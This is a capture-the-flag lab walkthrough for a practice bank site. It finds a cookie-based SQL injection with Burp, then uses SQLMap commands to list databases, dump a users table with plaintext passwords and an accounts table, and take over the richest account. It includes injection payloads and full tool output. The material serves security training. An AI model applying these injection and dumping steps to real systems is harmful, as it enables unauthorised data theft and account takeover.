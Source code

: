 # Challenge #3 - Arrogant Bank

## Credentials
Username: giovanni
Password: mycoolpass

## Objectives

- You want to find SQL injection vulnerabilities in the website, determining the type of SQL injection and its exploitability.
- You will also have to extract information from the database exploiting the vulnerability
- Find out the password of the richest in bank
- Become the richest in the bank, to gain respect

## LicenseWhat you will learn

- Inspection of the application logic with burp proxy
- Discovery of a SQL injection
- Exploitation of a SQL injection with SQLMap

## Hints

- MySQL
- Cookie Manipulation

## Steps

Log into the application using the giovanni credentials.

Send the page myaccount.php to burp and change the cookie user to "'" and sed the request.

```
user='
```

In the response the code has one MySql error message.

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1
```

Now let's send the endoint to SQLMap.

```
sqlmap -u http://3.challenge.sqli.site/myaccount.php --cookie="user=a*" --batch --dbms=mysql
```

After a few moments SQLMap will return the vulnerable parameter.

```
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: Cookie #1* ((custom) HEADER)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: user=' OR NOT 7467=7467-- EMVm

    Type: error-based
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: user=' AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7162716a71,(SELECT (ELT(8922=8922,1))),0x717a6a7671,0x78))s), 8446744073709551610, 8446744073709551610)))-- pozw

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=' AND (SELECT 8064 FROM (SELECT(SLEEP(5)))dhkQ)-- FIpi

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: user=' UNION ALL SELECT NULL,CONCAT(0x7162716a71,0x6b6c754a5168626679575968584653744c43494353586570527342594964784b5256436e4f6d7245,0x717a6a7671)-- -
```

List all databases.

```
sqlmap -u http://3.challenge.sqli.site/myaccount.php --cookie="user=a*" --batch --dbms=mysql --dbs

available databases [2]:                                 [*] arrogant_bank
[*] information_schema
```

List all tables.

```
sqlmap -u http://3.challenge.sqli.site/myaccount.php --cookie="user=a*" --batch --dbms=mysql -D arrogant_bank --tables

Database: arrogant_bank                     [3 tables]
+----------+
| accounts |
| customer |
| users    |
+----------+
```

Dump the users table.

```
sqlmap -u http://3.challenge.sqli.site/myaccount.php --cookie="user=a*" --batch --dbms=mysql -D arrogant_bank -T users --dump

Database: arrogant_bank                     Table: users
[4 entries]
+----+----------+-------------------------+----------+
| id | name     | password                | username |
+----+----------+-------------------------+----------+
| 1  | Armando  | The<<$ArmandoPassword>> | armando  |
| 2  | Barak    | 3809090909              | barak    |
| 3  | Clint    | thegood                 | clint    |
| 4  | Giovanni | mycoolpass              | giovanni |
+----+----------+-------------------------+----------+
```

Dump the accounts table.

```
sqlmap -u http://3.challenge.sqli.site/myaccount.php --cookie="user=a*" --batch --dbms=mysql -D arrogant_bank -T accounts --dump

Database: arrogant_bank                     Table: accounts
[4 entries]
+----+---------+-------+-------+---------------------+
| id | user_id | money | views | last_access         |
+----+---------+-------+-------+---------------------+
| 1  | 4       | 10    | 0     | 2021-10-03 11:46:05 |
| 2  | 2       | 50    | 0     | 0000-00-00 00:00:00 |
| 3  | 3       | 100   | 0     | 0000-00-00 00:00:00 |
| 4  | 1       | 1000  | 0     | 0000-00-00 00:00:00 |
+----+---------+-------+-------+---------------------+
```

The richest bank client is the user id 1. Log using this user to inpersonate the richiest client.
